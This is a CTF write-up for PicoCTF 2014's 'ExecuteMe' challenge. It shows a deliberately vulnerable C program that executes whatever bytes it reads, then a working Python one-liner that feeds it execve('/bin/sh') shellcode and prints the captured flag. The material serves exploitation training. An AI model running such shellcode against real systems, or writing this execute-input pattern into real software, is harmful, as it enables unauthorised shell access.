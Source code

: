 # Pico-CTF 2014: ExecuteMe

**Category:** Binary Exploitation
**Points:** 80
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c).)
> This program will run whatever you send to it! Try to get the flag! The binary can be found at /home/execute/ on the shell server. The source can be found [here](execute.c).

```c
#include <stdio.h>
#include <stdlib.h>

int token = 0;

typedef void (*function_ptr)();

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv){
    char buf[128];

    be_nice_to_people();

    read(0, buf, 128);

    ((function_ptr)buf)();
}
```

## Write-up
[//]: # (> Your write up goes here.)
> We can see from the code that char array buf is typecasted as function pointer `function_ptr` then we can write shell code to buf variable and when function call is made shell code written in array buff executes. To get a flag we need to execute /bin/sh from binary. We could have executed by just directly writing `/bin/sh` to buf if it would have been directly passed to `system(buf)` call, but this is not the situation we need to provide assembly shell code which does this thing. Many websites provide shellcode, such as [shell-storm](http://shell-storm.org/shellcode/). For now, let's use this [shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) to run execve("/bin/sh").

> Running execute binary as : 

```
(python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
ls
Makefile  execute  execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
^C
```

> Flag is : **shellcode_is_kinda_cool**

## Other write-ups and resources

* None
